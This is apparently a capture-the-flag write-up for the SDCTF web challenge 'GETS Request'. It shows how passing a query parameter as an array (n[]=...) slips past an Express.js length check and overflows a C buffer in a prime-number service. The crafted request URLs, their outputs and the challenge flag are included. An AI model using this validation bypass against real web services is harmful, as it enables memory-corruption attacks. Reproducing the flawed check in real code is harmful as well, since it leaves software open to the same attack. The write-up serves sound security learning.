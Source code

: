 # GETS Request
WEB - EASY

WU author: `inexp-mf`

## Statement
> Express.JS is an easy-to-use web framework, but Javascript/Typescript is too slow. C is a fast, low level language, but I was tired of debugging memory issues. Can I get the best out of both worlds by combining them?
Website
https://gets.sdc.tf/
Server Source
[index.js](index.js)

Author: `KNOX`

## Solution
After reading the statement and looking around for anything that might be intended to be broken, we understand that the primegen might be vulnerable to overflows. It is accessed via `https://gets.sdc.tf/prime?n=`.

Successless attempts that yielded `malformed number` output from the primegen itself:
- `https://gets.sdc.tf/prime?n=ffffff` or `https://gets.sdc.tf/prime?n=0xffffff`.
- `https://gets.sdc.tf/prime?n=1e50`.
- `https://gets.sdc.tf/prime?n=1<<400`.

An interesting result is that when primegen gets a string like `[0-9][^0-9].*`, it successfully parses a numeric prefix and ignores the rest of n.

It then seems that we might wanna try and attack the JS part of validations.
```js
if(req.query.n.length > BUFFER_SIZE) {
    res.status(400).send('Requested n too large!');
    return;
}
```
What if n is not neccesarily a string?
We can pass an array via `https://gets.sdc.tf/prime?n[]=val1&n[]=val2`.

Let's try it out:
`https://gets.sdc.tf/prime?n[]=43&n[]=64`
> There are exactly 19 primes under 43
    
Cool. Works with the former, ignores the remainder.
`https://gets.sdc.tf/prime?n[]=123456789`
> number malformed

You know what that means? We've passed the length validation. No idea why primegen won't check a valid number but won't overflow either. Let's try longer `n`s.
`https://gets.sdc.tf/prime?n[]=99999999999999999999999999`
 > buffer overflow! sdctf{B3$T_0f-b0TH_w0rLds}

 Cheers! It seems that a char buffer overflows or at least the primegen imitates such behavior. 
